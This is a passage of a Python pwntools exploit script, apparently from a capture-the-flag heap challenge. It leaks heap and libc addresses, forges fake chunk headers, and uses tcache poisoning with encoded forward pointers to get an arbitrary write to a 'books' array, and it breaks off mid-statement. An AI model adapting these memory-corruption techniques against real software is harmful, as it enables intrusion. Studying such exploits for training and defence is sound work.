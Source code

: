 ```py
    def enable_print(idx):
        edit(idx, b"".join([
            pwn.p64(0)
        ]))

    def libc_leak_free(idx):
        io.sendlineafter(b"Option: ", b"3")
        io.sendlineafter(b"Index: ", str(idx).encode())
        return pwn.unpack(io.recvline().replace(b"\n", b"").ljust(8, b"\x00")) - STDOUT

    def leak_environ(idx):
        io.sendlineafter(b"Option: ", b"3")
        io.sendlineafter(b"Index: ", str(idx).encode())
        return pwn.unpack(io.recvline().replace(b"\n", b"").ljust(8, b"\x00"))

    init(b"m"*4 + pwn.p8(0x41))

    add(1, b"K"*0x10)
    heap_leak = heapLeak(1)
    pwn.log.success(f"heap: {hex(heap_leak)}")

    # victim
    add(2, b"")
    add(3, b"".join([   b"A"*0x10,
                        pwn.p64(0), # prev_sz
                        pwn.p64(0x21) # fake size
                    ]))
    
    add(4, b"".join([   b"A"*0x10,
                        pwn.p64(0), # prev_sz
                        pwn.p64(0x21) # fake size
                    ]))
    free(4) # count for 0x40 tcachebin = 1

    # chunk2 => sz extended
    edit(1, b"K"*0x20)
    # chunk2 => tcachebin 0x40, count = 2
    free(2)

    # oob write over chunk3, we keep valid header
    add(2, b"".join([   pwn.p64(0)*3,
                        pwn.p64(0x41) # valid size to end up in the 0x40 tcache bin
                    ])) # count = 1

    # chunk3 => 0x40 tcachebin, count = 2
    free(3)

    pwn.log.info(f"Encrypted fp: {hex(encode_ptr(heap_leak, CHUNK3_OFFT, exe.got.printf))}")

    # tcache poisoning
    edit(2, b"".join([   pwn.p64(0)*3,
                         pwn.p64(0x41), # valid size
                         pwn.p64(encode_ptr(heap_leak, CHUNK3_OFFT, exe.sym.books)) # forward ptr
                     ]))

    # dumb
    add(3, b"A"*0x20) # count = 1

    # arbitrary write to @books, this way books[1] is user controlled
    add(4, b"".join([
        pwn.p64(0x1000), # sz
        pwn.p64(exe.sym.books), # target
        b"P"*0x10
```